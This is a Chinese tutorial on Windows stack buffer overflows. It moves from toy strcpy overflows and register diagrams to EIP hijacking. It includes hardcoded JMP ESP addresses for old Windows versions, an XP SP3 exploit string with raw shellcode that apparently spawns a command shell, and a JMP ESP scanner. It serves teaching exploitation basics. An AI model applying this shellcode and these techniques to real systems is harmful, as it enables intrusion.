








1 缓冲区溢出介绍
缓冲区溢简单说，是大的数据存入了小缓冲区，又不对存入数据进行边界判断，最终导致小缓冲区被撑爆。大的数据污染了小缓冲区附近的内存。污染的内存可能带来改变程序控制流、夺取操作系统、禁止访问等多种结果。就好比一杯水，倒满了水，多余的就溢出到外面来了。
缓冲区溢出主要可以分成三种：静态数据溢出、栈溢出和堆溢出。产生这三种不同的溢出根源在于win的内存结构；win的内存可以被分成两个层面：物理内存和虚拟内存。我们一般看到的其实只是windows的虚拟内存。在XP下windows会给所有进程都分配4G内存（无论物理内存真实多大）；windows会把4G内存分成代码区、数据区、堆区、栈区。数据区存储的是进程的全局变量。如果利用这里的数据进行缓冲区溢出那么就被称为静态数据溢出。同样利用栈区和堆区进行缓冲区溢出，则相应被称作栈溢出和堆溢出。静态数据溢出虽然技术难度低但是灵活性和可以利用范围低，所以本文就不介绍了。堆溢出相对复杂，将在别的文章介绍。本文介绍的是windows下的栈溢出，想要知道WINDOWS下的栈溢出如何利用，首先要理解windows下的栈结构。
2 栈工作原理
如上所示，想要知道WINDOWS下的栈溢出如何利用，首先要理解windows下的栈结构。

如上图所示，栈其实是一种数据结构，它遵从先进后出的原则。这个先进后出的意思也很简单，就是说先存储进去的数据，会被放在最里边，而后面存入的，则依次向外，所以最先进去的，最后才能出来。进出都是同一个出口。
形象一点说，就好比箱子放书，最先放进去的书总在最下面，而后面的书叠在上面。想要去最底层的书，就必须吧上面的书取出来。
通过这张图，相信大家也能够更加容易的理解栈这个东西了。
3 实战c初探栈溢出
下面将简单介绍一下溢出的概念
#include "stdio.h"
#include "string.h"
#include "stdlib.h"
char exp[] = "abcdef";
int main()
{
char output[8];
strcpy(output,exp);
int i=0;
for(i=0;i<8&&output[i];i++){
printf("\\0x%x",output[i]);
}
printf("\n");
system("pause");
return 0;
}
关于其中的 for(int i=0;i<8&&output[i];i++)该程序的初值为0，终值为output[i]的函数，&&是与运算。
因为char exp[] = "abcdef";只赋值了6位。
所以当i等于7时的值为空。
从而导致循环为假。
执行看看。
\0x61\0x62\0x63\0x64\0x65\0x66
没毛病。可以输出。
这里说一下，这里转换的编码是字符的16进制。
把abcdef都转换了61 62 63 64 65 66。
当我们输入的exp数组值超过了8位会怎么样？
#include "stdio.h"
#include "string.h"
#include "stdlib.h"
int main()
{
char exp[] = "abcdefghijk";
char output[8];
strcpy(output,exp);
int i=0;
for(i=0;i<8&&output[i];i++){
printf("\\0x%x",output[i]);
}
printf("\n");
system("pause");
return 0;
}
执行发现
dev c++和vc++6下输出：\0x61\0x62\0x63\0x64\0x65\0x66\0x67\0x68
单步调试发现output的内存空间情况：：0x0012ff34 "烫烫烫烫abcdefghijk"。

上面只输入了
\0x61\0x62\0x63\0x64\0x65\0x66\0x67\0x68
但是程序却出现了问题

可以看到只输出了8个字符，正好是字符空间的abcdefgh。
4 原理分析
那么是什么原因导致的程序结束的？
下面给出了一个正常栈时的情况。

1. SP ( ESP )
即栈顶指针，随着数据入栈出栈而发生变化
2. BP ( EBP )
即基地址指针，用于标识栈中一个相对稳定的位置。通过 BP ,可以方便地引用函数参数以及局部变量
3. IP ( EIP )
即指令寄存器，在将某个函数的栈帧压入栈中时，其中就包含当前的 IP 值，即函数调用返回后下一个执行语句的地址
eip：寄存器存放下一个CPU指令存放的内存地址，当CPU执行完当前指令后，从EIP寄存器中读取下一条指令的内存地址，然后继续执行。
原理因为程序要进入main函数，所以系统把之前的EIP和EBP保存在堆栈中，便于以后恢复，然后就是调用函数，调用函数的时候就把函数参数压入堆栈，后面再压入函数返回值之类的。
5 原理继续分析
当输入abcdefghijklmnop的时候。

这个长度远远大于8，所以溢出的值覆盖了EBP和EIP的值，导致程序无法执行下一条指令的内存地址，最终导致程序无法正常运行。
但是看图有没有发现，弹出的错误框告诉我们0x706f6e6d的地址不可读！！！
0x706f6e6d ？？？？

这不是mnop的字段么。
原来是程序溢出的一段代码覆盖了我们的EBP和EIP 而堆栈又是以4字节为长度，由此算来，正好是mnop这四个字符溢出。
所以，程序把我们的mnop当做指针来返回了，而0x706f6e6d这时又不可读，理所当然的就发生错误了~~
那如果我们精心构造了一个地址呢~~？！
6 漏洞的利用，编写shellcode。
之前成功的了解了栈的原理及缓冲区溢出的一些基本概念。
由于EIP被覆盖了，也就可以利用覆盖EIP的值为JMP ESP来跳转到我们的ESP指针所指向的地址。

这里我们是用的NNNN/JMP ESP/SSSS型的shellcode
从上述可以知道N就是NOP，也就是为空字节，用来占据缓冲区的长度。
然后JMP ESP就是我们的原EIP地址。
s0开始就是我们那个上面的shellcode。
那么为啥这样就能跳到shellcode里面去呢，我们知道程序执行完成之后esp会把返回地址弹到eip里面，而esp这个时候就指向了eip的下一位，也就是s0的位置，然后eip的地址里面是一条jmp esp指令，那么就很顺利的跳到esp指针的地方去了，如下图

执行RET之后。
这时有人就会问，这里的RET是什么。
RET相当于POP EIP，也就是把栈顶指针ESP所指向的值弹出来给EIP。所以通常，RET执行后，就可以把原来的EIP回复，从而回到中断前的流程。

顺利跳过去执行我们的shellcode。
但由于JMP ESP的值是不确定的，当然有些版本是固定的。
这里JMP ESP的地址，会由于版本的不同而不一样。比如在Win2000的User32.dll中，JMP ESP指令的地址分别为：sp0:0x77e2e32a、sp1:0x77e8898b、sp2:0x77e0492b、sp3:0x77e188a7、sp4:0x77e22c75。以前很多攻击利用程序需要带上对方版本的参数，就是这个原因。
0x7ffa4512是lion分享的, 通杀中文2K,XP,2K3 . jmp esp ; 用0x7ffa4512吧, 2000, xp, 2003下通用。
如果要想跳转地址更通用，这里推荐现在比较流行的两个：对Windows 2000、XP、2003都通用的具有JMP EBX功能的地址是0x7ffa1571，通用的具有JMP ESP功能的地址是0x7ffa4512。
7 简单的利用原理讲解
下面讲会讲解一个简单的跳转利用讲解~~
本人是用的win测试的，而win7的JMP ESP找不到~~（技术欠缺咯）。
是因为在WIN7以后, 几个核心dll都是浮动地址加载的, 没有统一的JMP ESP地址。
看如下代码：
#include "stdio.h"
#include "windows.h"
void m()
{
MessageBoxA(0, "hack by 神风", "hack", 0);
}
int main()
{
printf("hello");
m();
system("pause");
return 0;
}
这里自定义了一个函数为m()函数。
m函数的内容就是调用MessageBoxA()函数。
也就是弹窗~~

当在主函数调用m()函数时，效果就是弹窗咯~
那么，我们可不可同样，找到这个m()函数的地址，然后JMP到m()函数那去。
我们可以用一个printf的%p来输出m()函数在内存中的地址。
#include "stdio.h"
#include "windows.h"
void m()
{
MessageBoxA(0, "hack by 神风", "hack", 0);
}
int main()
{
printf("0x%p",&m);
system("pause");
return 0;
}
//0x00401005
可以知道地址为0x00401005，类似的，我们就可以利用这个地址来代理EIP的值，就会返回到我们的m()函数中去了！
8 最后的完工
到了最后一步了，只需要把我们的shellcode写出来就可以了。
代码如下：
#include "stdio.h"
#include "string.h"
#include "stdlib.h"
#include "windows.h"
char exp[] = "abcdefss"
"AAAA"
"\x05\x10\x40\x00";
void m(){
MessageBoxA(0, "hack by 神风", "hack", 0);
}
#if(0)
int main()
{
char output[8];
strcpy(output,exp);
int i=0;
for(i=0;i<8&&output[i];i++)
printf("\\0x%x",output[i]);
printf("\n");
return 0;
}
#endif
int main()
{
char output[8] = {0};
//int * 取地址 （int）强制转为int
*(int *)((int)output+12) = (int)(int *) (m);
int i=0;
for(i=0;i<8&&output[i];i++)
printf("\\0x%x",output[i]);
printf("\n");
return 0;
}
这时候可以看到我们并没有在主函数中调用m()函数。
但还是成功执行了m()函数。

最后放上一个XP SP3成功利用的代码。
下面利用一个代码（XP SP3下通过，效果与上面的程序一样）
#include <stdio.h>
#include <string.h>
char name[] =
"\x41\x41\x41\x41"
"\x41\x41\x41\x41" //这里填充8字节把缓冲区填满
"\x41\x41\x41\x41" //ebp填掉
"\x12\x45\xfa\x7f" //eip覆盖成jmp esp的地址，这个是sp3下的地址
"\x55\x8B\xEC\x33\xC0\x50\x50\x50" //这里开始就是shellcode
"\xC6\x45\xF4\x4D"
"\xC6\x45\xF5\x53"
"\xC6\x45\xF6\x56"
"\xC6\x45\xF7\x43"
"\xC6\x45\xF8\x52"
"\xC6\x45\xF9\x54"
"\xC6\x45\xFA\x2E"
"\xC6\x45\xFB\x44"
"\xC6\x45\xFC\x4C"
"\xC6\x45\xFD\x4C"
"\x8D\x45\xF4\x50\xBA\x7B\x1D\x80\x7C\xFF\xD2"
"\x55\x8B\xEC\x83\xEC\x2C\xB8\x63\x6F\x6D\x6D"
"\x89\x45\xF4\xB8\x61\x6E\x64\x2E"
"\x89\x45\xF8\xB8\x63\x6F\x6D\x22"
"\x89\x45\xFC\x33\xD2\x88\x55\xFF"
"\x8D\x45\xF4\x50\xB8\xC7\x93\xBF\x77\xFF\xD0";
int main()
{
char output[8];
strcpy(output, name);
for(int i=0;i<8&&output[i];i++)
printf("\\0x%x",output[i]);
return 0;
}
最后再放上一个查看JMP ESP的C源代码：
#include<windows.h>
#include<iostream.h>
#include<tchar.h>
int getJmpEsp(TCHAR *ucDllName)
{
HINSTANCE h;
h = GetModuleHandle(ucDllName);
if(h == NULL)
{
h = LoadLibrary(ucDllName);
if(h == NULL)
{
cout<<"ERROR LOADING DLL:"<<ucDllName<<endl;
return -1;
}
}
BYTE* ptr=(BYTE*)h;
bool done=false;
for(int y=0;!done;y++)
{
try
{
if(ptr[y] == 0xFF && ptr[y+1] == 0xE4)
{
int pos=(int)ptr + y;
cout<<"OPCODE found at 0x"<<hex<<pos<<endl;
}
}catch(...)
{
cout<<"END OF "<<ucDllName<<" MEMORY REACHED"<<endl;
done=true;
}
}
FreeLibrary(h);
return 0;
}
int main()
{
getJmpEsp("ntdll");
getJmpEsp("user32");
system("pause");
return 0;
}
参考书籍：
《Q版缓冲区溢出》
《汇编语言》
我在写本帖时遇到了些难题，印象最深的是一个编译器的问题
如图

我们的溢出程序在DEVC++中是可以安全运行的，当时我一脸懵逼~~~
一直以为是代码写错了。
最后调试知道是不同的编译器的编译原理不同，而这种差错导致该代码成功执行。
原因就是在于strcpy(output,exp);函数，并没有把所有的exp数组复制过来。而是复制了前8个，正好填满了OUTPUT~~

最后用VC++是可以成功溢出的
还有一个就是我在写代码时，把char exp[] = "abcdef"这串代码写到main外面
我就想能不能写里面~~~
结果两个编译器DEVC++和VC++都无法溢出！

这里某大牛给出的解答是：
"把exp定义在main函数里相当于在main函数入口为exp开辟了11字节缓冲区，你strcpy以后还覆盖不到栈底当然不会溢出了"。